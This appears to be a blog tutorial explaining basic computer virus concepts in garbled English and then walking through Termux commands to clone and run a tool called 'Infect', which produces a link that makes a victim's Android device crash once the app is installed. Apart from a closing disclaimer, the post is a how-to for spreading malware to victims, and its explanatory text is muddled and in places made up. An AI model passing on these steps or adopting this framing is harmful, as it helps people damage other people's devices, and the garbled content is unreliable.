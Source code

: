 ```yaml
---
title: Spread virus from link
author: Abhinav Kumar
authorURL: https://www.linkedin.com/in/Abhi6722
authorImageURL: https://avatars.githubusercontent.com/u/62201123
---
```


In this post I am going to introduce you with Virus. You all would be knowing about virus but you might not be knowing how harmful it could be. In this lesson I am going to tell you about it and how to create a virus.

Virus stands for Vital Information Resource Under Siege.
You all would be knowing about virus but you might not be knowing how harmful it could be. In this lesson I am going to tell you about it and how to create a virus.
The function of Virus is similar to what it stands for. Virus is nothing but a piece of code. This code, once executed, starts performing tasks in the background.
 
## Symptoms of Virus
Some viruses will use up all the computing power to perform a job. It can be a simple job of pinging “google.com” for no apparent reason. Due to this, the victim’s machine performs very slow as majority of its resources are being used  by the Virus.
 
### System Slowness
A victim may not understand its existence right at the beginning. But as time progresses, various symptoms of Virus Infection can be seen such as slowness.
These symptoms vary as the code variation occurs.
  
### Spread of Virus
A Virus’ damage increases as it spreads to other disks and drives. However, it always needs to attach itself to a host file or an application to spread. Say, you downloaded subtitles of a movie, and along with the usual .srt file, there is a fishy .bat file as well.
 
A victim might not pay much attention to it and give a copy of the same to another person.
In this way, even if the victim deletes it from one of the drives, say C drive, there is a copy of it somewhere else.
 
### Concealer
The concealer’s job is to make Virus appear as a benign application i.e a trust-worthy and genuine application.
This part is normally done by the attacker during the creation of the virus itself.
 
A simple way is to show another app’s icon as its own.
This way the victim is fooled to believe that it is a trust-worthy file.
 
### Payload
The Payload is nothing but the actual piece of code where the instructions are stated.

This decides the behaviour of the virus.
It can be a simple command of restarting the machine indefinitely.
 
### Replicator
In the previous sub-topic, we saw how a chain of propagation was created.
This plan is devised by the Replicator part of a Virus.
It may not be limited to only file systems but can be applied to networks and internet as well. 
 
## How to send a virus or spread the virus from simply sending the link in an android gadget
So sending viruses and getting to gadgets isn’t simple these days yet at the same time, we can misuse huge numbers of the gadgets by this instrument named Infect which is comprised of slam scripting language so this content is accessible for termux clients you can run this device in established and non-established gadgets. 
 
So fellow’s today we are going to spread a virus through simply link and parcel more…
 
## Follow below steps
Open termux app and write the following commands
``` 
$ apt-get update
```
```
$ apt upgrade
```
``` 
$ pkg install python
```
``` 
$ pkg install python2
```
``` 
$ pkg install git
```
``` 
$ termux-setup-storage
```
``` 
$ pip install lolcat
```
``` 
$ git clone https://github.com/Abhi6722/Infect
```
``` 
$ ls
```
``` 
$ cd Infect
```
``` 
$ bash infect.sh
``` 

Now after tool opens in that you will get 4 option’s 
 
1. Infect now, from this feature you’ll get a link and send that link to your victim and when your victim installs that app his/her device will crash and lot more.
 
2. Save now, from this you’ll get a link of antivirus type app which removes that virus from his/her device
 
3. Update script, from this you’ll update script.
 
4. Exit, exit from script.

:::tip Note 
Make sure that whatever you are doing is only for educational purposes and nothing else if you are doing any illegal activity then we are not responsible for that.
:::